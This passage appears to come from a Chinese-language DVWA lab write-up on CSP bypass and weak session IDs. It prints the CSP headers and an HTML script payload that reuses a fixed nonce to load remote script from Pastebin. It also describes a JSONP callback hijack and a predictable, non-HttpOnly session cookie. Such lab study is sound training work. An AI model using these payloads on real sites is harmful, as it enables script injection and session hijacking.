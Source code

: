 複製貼上到Console
![](https://i.imgur.com/SXCmmli.png)

**結果:**
![](https://i.imgur.com/yxiMo6Q.png)




## CSP Bypass
### Low
Content Security Polciy 設定值為:
```java!
Content-Security-Policy: script-src 'self' https://pastebin.com  example.com code.jquery.com https://ssl.google-analytics.com ;
```
Html Render:
![](https://i.imgur.com/oOBE388.png)

允許載入Pastebin上的字串，放入`<script>`
https://pastebin.com/dl/R570EE00

### Medium
Content Security Polciy 設定值為:
```java!
Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';
```
`unsafe-inline`允許插入`<script>`內容
`<script>` tag內設定`nonce`來符合CSP白名單

**Payload:** 
```html!
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=" src='https://pastebin.com/dl/R570EE00'></script>
```

### High
這邊是用jsonp去call function
![](https://i.imgur.com/Ya0Lxai.png)
![](https://i.imgur.com/JrDLA9i.png)
![](https://i.imgur.com/O2MPQcV.png)

把callback改成自己的function
![](https://i.imgur.com/nLOLqsE.png)




## Weak Session IDs
### Low
* Cookie中的`dvwaSession`用+1產生，可隨意竄改
* Cookie不會失效
* Cookie沒有設HTTPONLY flag，可用`document.cookie`存取
![](https://i.imgur.com/G8KDsZ6.png)
